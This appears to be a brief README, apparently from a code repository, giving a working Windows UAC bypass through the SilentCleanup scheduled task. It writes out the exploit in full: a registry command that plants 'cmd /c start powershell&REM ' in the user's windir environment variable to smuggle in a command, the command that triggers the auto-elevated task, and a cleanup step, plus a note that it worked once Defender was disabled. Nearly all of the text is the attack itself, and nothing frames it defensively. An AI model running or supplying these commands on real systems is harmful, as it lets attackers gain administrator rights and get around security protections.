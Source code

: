 Silent Cleanup is an auto-elevated task located at `%windir%\system32\cleanmgr.exe`

### Adding Registry Keys
```CMD
reg add "HKCU\Environment" /v "windir" /d "cmd /c start powershell&REM " >nul
```

### Running Silent Cleanup
```CMD
schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I >nul
```

### Cleaning Up
```CMD
reg delete "HKCU\Environment" /v "windir" /F
```

### Notes
- Defender blocks the user from running SilentCleanup
- Worked on Windows 10 Pro N 21H2 Build 19044.1288 after disabling Defender.